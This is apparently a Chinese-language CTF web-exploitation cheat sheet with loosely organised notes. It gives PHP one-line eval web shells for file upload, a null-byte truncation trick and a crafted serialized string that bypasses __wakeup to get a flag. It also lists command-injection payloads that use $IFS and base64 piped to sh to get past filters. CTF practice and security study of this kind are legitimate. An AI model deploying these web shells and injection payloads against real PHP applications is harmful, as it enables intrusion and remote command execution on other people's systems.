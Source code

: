 http://web.jarvisoj.com:32785/

?page=xxxx

?page=xxxx%00 就可以截断

首先是把 php 上传（改文件名、改 Content-Type，改文件内容，图片马），然后是如何解析并执行 php（web 容器的解析漏洞、php 文件包含）。

    <?php @eval($_POST['pwd']);?>
    <script language="php">@eval_r($_POST['pwd'])</script>

#### \$\_REQUEST 数据覆盖问题

2018NCTF_easy_audit
Request 变量默认情况下包含了$GET，$POST 和\$COOKIE 的数组。 未设置时，从左向右注册。可覆盖。

**\$ SERVER['QUERY STRING']**

$_SERVER是预定义服务器变量的一种，所有$\_SERVER 开头的都是预定义服务变量。

```
示例：
http://localhost/aaa/index.php？p=222&q=333
结果：
$_SERVER['QUERY_STRING]="p=222&q=333"；
```

### \_\_wakeup()

**wakeup()方法中\$this->username = 'guest'会让 username 重新赋值。在反序列化字符串时，属性个数的值大于实际属性个数时，会跳过 **wakeup()函数的执行，我们可以将字符串中 O:4:"Name"后面的 2 改为 3 及以上的整数

```
O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
O:4:"Name":3:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
```

注意该类中使用的 private 来声明字段，private 在序列化中类名和字段名前都要加上 ASCII 码为 0 的字符(不可见字符)，如果我们直接复制结果，该空白字符会丢失，需要我们自己加上

`O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`

将该字符串作为 select 参数的值，GET 方式发送过去就可以获得 flag

http://题目链接/?select=O:4:%22Name%22:3:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;i:100;}

### shell 绕过

[命令执行的绕过技巧](https://www.dazhuanlan.com/2019/10/05/5d97c963e2513/)

$IFS和$IFS\$9 来绕过空格过滤

```
payload1：?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
payload2：?ip=|echo$IFS$9Y2F0IC9mbGFn|base64$IFS$9-d|sh

绕过  if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
      ;a=g;cat$IFS$1fla$a.php

GXYCTF2019]Ping Ping Ping
https://www.gem-love.com/ctf/516.html
https://0day.design/2018/12/20/Swpu%20CTF%202018%20Writeup/
https://www.cnblogs.com/wrnan/p/12811449.html
https://www.cnblogs.com/yesec/p/12475478.html
https://www.google.com/search?q=preg_match(%22%2F.*f.*l.*a.*g.*%2F%22&oq=preg_match(%22%2F.*f.*l.*a.*g.*%2F%22&aqs=chrome..69i57&sourceid=chrome&ie=UTF-8
```
